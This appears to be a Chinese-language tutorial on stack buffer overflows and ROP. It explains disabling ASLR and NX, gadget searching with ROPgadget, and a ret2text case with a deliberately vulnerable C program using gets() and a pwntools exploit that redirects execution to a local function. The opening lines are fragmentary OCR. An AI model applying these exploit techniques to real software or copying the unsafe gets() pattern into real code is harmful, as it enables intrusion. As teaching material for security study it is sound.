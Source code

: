 ($ cat /proc/sys/kernel/randomize_va_space指令检查)
exit（关闭ALSR)
-z execstack（关闭NX保护）

test.c -o test(由test.c生成test可执行文件)

-g(GDB调试)

**0X04--ROP原理：**

随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。之所以称之为 ROP，是因为核心在于利用了指令集中的 ret 指令，改变了指令流的执行顺序。ROP 攻击一般得满足如下条件：

1. 程序存在溢出，并且可以控制返回地址。
2. 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

ropgadget，注意命令格式：ROPgadget --binary [文件名] --only’寄存器名|寄存器名’ | grep ‘eax’。

**0X05--四种类型：**

**第一种类型ret2text:**

```
#include <stdio.h>
#include <string.h>
void success() 
{ 
puts(“You Hava already controlled it.”); 
}
void vulnerable()
{
char s[12];
gets(s);
puts(s);
return;
}
int main(int argc, char **argv) 
{
vulnerable();
return 0;
}
```

只开启了NX enabled，首先找到了gets()函数，存在栈溢出漏洞。然后根据char[]开启的buf地址（EBP-0x14），计算出覆盖到ret addr的距离(buf的起始地址到EBP的长度)，构造出payload=0x14‘a’+’bbbb‘+p32（想要执行的函数地址）。这种类型只说明通过栈溢出可以控制程序流，并没有实际拿到shell，属于特殊情况。

EXP如下：

```
##coding=utf8
## 导入pwntools库
from pwn import *
## 构造与程序交互的对象，sh = process('./文件名')表示打本地，日自己。
sh = process('./stack_example')
## 已知了想要执行的函数地址
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
##print可以帮助自己看脚本执行到了哪一步
print p32(success_addr)
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```
